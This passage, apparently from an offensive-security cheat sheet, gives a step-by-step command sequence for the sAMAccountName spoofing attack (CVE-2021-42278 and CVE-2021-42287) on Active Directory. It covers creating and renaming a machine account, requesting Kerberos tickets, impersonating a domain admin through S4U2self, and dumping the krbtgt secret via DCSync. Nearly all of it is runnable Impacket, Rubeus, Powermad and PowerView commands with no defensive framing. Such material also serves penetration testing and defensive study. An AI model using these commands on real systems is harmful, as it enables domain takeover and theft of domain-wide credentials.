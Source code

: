     powermad@windows> . .\Powermad.ps1
    powermad@windows> $password = ConvertTo-SecureString 'ComputerPassword' -AsPlainText -Force
    powermad@windows> New-MachineAccount -MachineAccount "ControlledComputer" -Password $($password) -Domain "domain.local" -DomainController "DomainController.domain.local" -Verbose

    sharpmad@windows> Sharpmad.exe MAQ -Action new -MachineAccount ControlledComputer -MachinePassword ComputerPassword
    ```
1. Clear the controlled machine account `servicePrincipalName` attribute
    ```ps1
    impacket@linux> addspn.py -u 'domain\user' -p 'password' -t 'ControlledComputer$' -c DomainController

    powershell@windows> . .\Powerview.ps1
    powershell@windows> Set-DomainObject "CN=ControlledComputer,CN=Computers,DC=domain,DC=local" -Clear 'serviceprincipalname' -Verbose
    ```
2. (CVE-2021-42278) Change the controlled machine account `sAMAccountName` to a Domain Controller's name without the trailing `$`
    ```ps1
    # https://github.com/SecureAuthCorp/impacket/pull/1224
    impacket@linux> renameMachine.py -current-name 'ControlledComputer$' -new-name 'DomainController' -dc-ip 'DomainController.domain.local' 'domain.local'/'user':'password'

    powermad@windows> Set-MachineAccountAttribute -MachineAccount "ControlledComputer" -Value "DomainController" -Attribute samaccountname -Verbose
    ```
3. Request a TGT for the controlled machine account
    ```ps1
    impacket@linux> getTGT.py -dc-ip 'DomainController.domain.local' 'domain.local'/'DomainController':'ComputerPassword'

    cmd@windows> Rubeus.exe asktgt /user:"DomainController" /password:"ComputerPassword" /domain:"domain.local" /dc:"DomainController.domain.local" /nowrap
    ```
4. Reset the controlled machine account sAMAccountName to its old value 
    ```ps1
    impacket@linux> renameMachine.py -current-name 'DomainController' -new-name 'ControlledComputer$' 'domain.local'/'user':'password'

    powermad@windows> Set-MachineAccountAttribute -MachineAccount "ControlledComputer" -Value "ControlledComputer" -Attribute samaccountname -Verbose
    ```
5. (CVE-2021-42287) Request a service ticket with `S4U2self` by presenting the TGT obtained before
    ```ps1
    # https://github.com/SecureAuthCorp/impacket/pull/1202
    impacket@linux> KRB5CCNAME='DomainController.ccache' getST.py -self -impersonate 'DomainAdmin' -spn 'cifs/DomainController.domain.local' -k -no-pass -dc-ip 'DomainController.domain.local' 'domain.local'/'DomainController'

    cmd@windows> Rubeus.exe s4u /self /impersonateuser:"DomainAdmin" /altservice:"ldap/DomainController.domain.local" /dc:"DomainController.domain.local" /ptt /ticket:[Base64 TGT]
    ```
6. DCSync: `KRB5CCNAME='DomainAdmin.ccache' secretsdump.py -just-dc-user 'krbtgt' -k -no-pass -dc-ip 'DomainController.domain.local' @'DomainController.domain.local'`
